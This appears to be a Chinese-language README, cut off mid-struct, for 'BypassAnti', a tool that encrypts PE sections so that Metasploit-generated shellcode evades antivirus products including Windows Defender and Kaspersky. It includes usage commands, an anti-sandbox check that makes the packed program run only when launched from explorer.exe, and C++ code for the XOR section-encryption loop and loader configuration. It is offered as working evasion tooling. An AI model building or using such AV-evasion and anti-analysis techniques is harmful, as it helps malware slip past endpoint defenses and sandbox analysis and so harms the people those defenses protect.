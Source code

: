 # 描述

通过对区段的加密实现绕过AV静态查杀。经过简单测试，将msf生成的shellcode进行加密后可绕过常见的杀软，如360、火绒、卡巴基斯、Windows Defender。

# 可运行的系统

| Windows | Linux |
| ------- | ----- |
| ✔️       | ✔️     |

# 帮助

```
Usage: BypassAnti
        -f              (required) filename
        -p              (optional) parent process,used to verify whether the sandbox runs.default null
        -s              (optional) section name to be encrypted defaults '.text'
Example: BypassAnti -f filename -p explorer.exe -s .text .data
```

`-p`主要用于做反沙箱检测，当决定自身程序只能由xxx进程拉起时，可设置该选项进行检测。例如常规启动进程都是双击运行，因此父进程为`explorer.exe`。使用如下命令进行设置父进程。

```
BypassAnti.exe -f filepath -p explorer.exe
```

加密后的程序只能通过双击运行，若通过其他方式运行，比如cmd.exe、调试器、powershell等间接执行，则会执行失败。

# 原理

>  BypassAnti为主程序，Loader为壳加载器。

BypassAnti根据输入的文件判断x86/x64选择对应的loader进行加载，将loader代码段内容读取，并加密区段，算法如下：

```c++
LoaderConfig.packs[i].xor_key = rand() % time(0)+time(0);//设置key
for (int j = 0; j < sec->Misc.VirtualSize; j++)
{
	uint8_t origin_byte = 0;
    pe.Read<uint8_t>(sec->PointerToRawData + j, origin_byte);
    pe.Write<uint8_t>(sec->PointerToRawData + j, origin_byte ^ static_cast<uint8_t>(____rotl(LoaderConfig.packs[i].xor_key, j) + j));
}
```

然后生成下列配置项：

```c++
struct packInfo
{
	uint64_t seg_rva;
	uint64_t seg_size;
	uint64_t xor_key;
};

struct ShadowApi
{
	uint64_t lpfnLoadLibraryW;
	uint64_t lpfnVirtualProtect;
	uint64_t lpfnGetProcAddress;
	uint64_t lpfnCreateFileW;
	uint64_t lpfnReadFile;
	uint64_t lpfnCloseHandle;
```